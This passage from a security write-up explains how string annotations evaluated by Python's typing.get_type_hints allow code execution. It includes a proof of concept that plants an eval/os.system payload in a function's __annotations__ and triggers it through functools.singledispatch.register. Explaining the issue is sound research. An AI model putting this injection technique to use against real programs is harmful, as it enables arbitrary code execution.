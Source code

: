 Here, we specify a forward reference which imports `os` and calls `os.system`

It is possible that `typing.get_type_hints` is used internally by other Python functions, which could make these functions also susceptible to similar misuse. The Stack Overflow post mentions `functools.singledispatch` which has inner function `register`. The `register` function calls `typing.get_type_hints`. In the `register` function, `typing.get_type_hints` is used like this

```Python
def register(cls, func=None):
        nonlocal cache_token
        if _is_valid_dispatch_type(cls):
            if func is None:
                return lambda f: register(cls, f)
        else:
            if func is not None:
                raise TypeError(
                    f"Invalid first argument to `register()`. "
                    f"{cls!r} is not a class or union type."
                )
            ann = getattr(cls, '__annotate__', None)
            if ann is None:
                raise TypeError(
                    f"Invalid first argument to `register()`: {cls!r}. "
                    f"Use either `@register(some_class)` or plain `@register` "
                    f"on an annotated function."
                )
            func = cls

            # only import typing if annotation parsing is necessary
            from typing import get_type_hints
            from annotationlib import Format, ForwardRef
            argname, cls = next(iter(get_type_hints(func, format=Format.FORWARDREF).items()))
```

To reach the `get_type_hints` call, the function must be registered in such a way that the execution reaches the `else` block. This happens if we use `@register` on an annotated function. We can add additional annotations to the function before calling register. If we add annotations like in the example to the function, we can get code execution.

```Python
from functools import singledispatch


def handle_payload(p: "Payload"): # annotated function
    print(f"Processing Payload: {p}")

handle_payload.__annotations__ = {
    "obj": """eval('__import__("os").system("ls")')"""
}

@singledispatch
def process(obj):
    print("Default processing")

process.register(handle_payload)
```
There will be a `TypeError: Invalid annotation for 'x'. 0 is not a class` when running this, but that happens after the `eval` is executed (and frankly, executing the `eval` is what we care about).
